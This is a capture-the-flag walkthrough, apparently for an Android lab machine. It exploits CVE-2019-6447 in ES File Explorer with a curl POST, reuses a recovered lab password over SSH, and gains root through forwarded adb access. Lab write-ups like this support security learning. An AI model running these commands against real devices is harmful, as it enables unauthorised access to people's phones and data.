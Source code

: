I don't know why all the info of the ports from`nmap` are mess up...

## Info
### Credentail
 User | Password          | Service | Note
------|-------------------|---------|-------
kristi|Kr1sT!5h@Rp3xPl0r3!|

## Path
### Andriod machine !?
0. I haven't exploit any Android system yet, so I totally don't know what to expect. Though, I google and from [this article](https://www.hacknos.com/investigator-vulnhub-walkthrough/), I know that I should somehow connect via `adb` to gain root of the machine.
### User
1. From the HTB page, we know it is an Android machine.
2. From nmap, it is running an Banana Studio SSH Server, which is an application to host a SSH on the android, and the port 5555 is open, which is usually an Android Debug port.
3. By trying, I found that we can use `adb` to connect to the machine through port `2222`, but it is offline immediately.
```
$ adb connect $ip:2222 && adb devices
connected to 10.10.10.247:2222
List of devices attached
10.10.10.247:2222       offline
```
4. There seems nothing we can do, so do a all-ports scan, and found some open ports runnign HTTP.
5. Google 'ES File Explorer Name Response' and found CVE-2019-6447. Although the nmap shows 'ES File Explorer Name Response' is running on 42135, since it don't work and the script suggest it should run on port 59777, we run it against port 59777 and get good luck.
```
$ curl -X POST $ip:59777 -H 'Content-Type: application/json' --data '{command: "getDeviceInfo"}'
{"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}
```
6. By looking around the files use own written script `CVE-2019-6447.py`, I found `user.txt` in `/sdcard/`.
7. By `listPics`, it shows there is a `creds.jpg` at `/storage/emulated/0/DCIM/`, so download it and get the credential. Use the credential to login SSH and gain user.

### Root
1. Since `adb` server scan odd number port from 5555 to 5585 for the running devices to connect, we can use SSH to do port forwarding from our `localhost:5555` to the `localhost:5555` of the machine to let us use `adb` against the machine.
```
$ ssh -L 5555:localhost:5555 kristi@$ip -p 2222 -N
$ adb devices
List of devices attached
localhost:5555  device
emulator-5554   device
```
2. Connect to the machine using `adb`, and we gain root.
```
$ adb -s emulator-5554 shell
x86_64:/ # whoami
root
x86_64:/ # find / -name root.txt 2>/dev/null
/data/root.txt
```

## Reference
### How to start exploit an Android machine
- https://www.hacknos.com/investigator-vulnhub-walkthrough/
### CVE-2019-6447 (ES File Explorer)
- https://www.exploit-db.com/exploits/50070
- https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
### ADB
- https://developer.android.com/studio/command-line/adb
